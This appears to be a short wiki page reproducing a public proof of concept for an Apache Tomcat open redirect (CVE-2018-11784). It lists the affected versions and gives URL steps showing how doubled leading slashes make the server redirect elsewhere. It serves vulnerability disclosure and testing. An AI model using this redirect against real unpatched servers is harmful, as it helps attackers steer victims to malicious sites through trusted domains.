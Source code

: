 <languages /> <translate>

影響版本
--------

</translate>

    Apache Tomcat 9.0.0.M1 to 9.0.0.11, 8.5.0 to 8.5.33, and 7.0.23 to 7.0.90

POC
---

    # Exploit Title: Apache Tomcat 9.0.0.M1 - Open Redirect
    # Date: 10/04/2018
    # Exploit Author: Central InfoSec
    # Version: Apache Tomcat 9.0.0.M1 to 9.0.0.11, 8.5.0 to 8.5.33, and 7.0.23 to 7.0.90
    # CVE : CVE-2018-11784

    # Proof of Concept:

    # Identify a subfolder within your application
    http://example.com/test/

    # Modify the URL to include at least 2 leading slashes before the subfolder and no trailing slash
    http://example.com//test

    # Browse to the newly created URL and the application will perform a redirection
    http://test/
